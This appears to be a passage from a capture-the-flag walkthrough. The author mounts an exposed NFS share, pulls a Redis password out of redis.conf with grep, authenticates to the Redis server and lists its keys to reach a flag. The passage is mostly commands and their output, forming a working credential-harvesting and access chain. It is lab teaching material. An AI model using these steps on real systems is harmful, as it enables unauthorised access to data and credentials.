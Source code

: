 ```
mkdir temp

sudo mount -t nfs  10.10.169.137:/opt/conf temp/
```

```
ls -lah
total 36K
drwxr-xr-x 9 root      root      4.0K Feb  2  2021 .
drwxr-xr-x 4 madalinux madalinux 4.0K Dec 31 04:10 ..
drwxr-xr-x 2 root      root      4.0K Feb  2  2021 hp
drwxr-xr-x 2 root      root      4.0K Feb  2  2021 init
drwxr-xr-x 2 root      root      4.0K Feb  2  2021 opt
drwxr-xr-x 2 root      root      4.0K Feb  2  2021 profile.d
drwxr-xr-x 2 root      root      4.0K Feb  2  2021 redis
drwxr-xr-x 2 root      root      4.0K Feb  2  2021 vim
drwxr-xr-x 2 root      root      4.0K Feb  2  2021 wildmidi
```

- Alright. So we got access to some files. The first thing I did was to check redis. Inside that directory was the config file of the DB.

```
cat redis.conf | grep pass

# masterauth <master-password>
requirepass "{REDACTED}F"
```

- Nice. I couldn't find other useful information in the rest of the files.

#### Back to Redis - 6379

```
10.10.169.137:6379> AUTH {REDACTED}
OK
10.10.169.137:6379> INFO keyspace
# Keyspace
db0:keys=5,expires=0,avg_ttl=0
10.10.169.137:6379> SELECT 0
OK
10.10.169.137:6379> KEYS *
1) "int"
2) "marketlist"
3) "tmp"
4) "internal flag"
5) "authlist"
```

- We can get any key with the `get` command. `get "internal flag"` will get us another flag.
- However, I wanted to take a look at the others.

- I couldn't use `GET` for `authlist` and `marketlist`, since they were another Key Type (can be seen with `TYPE <key>`).
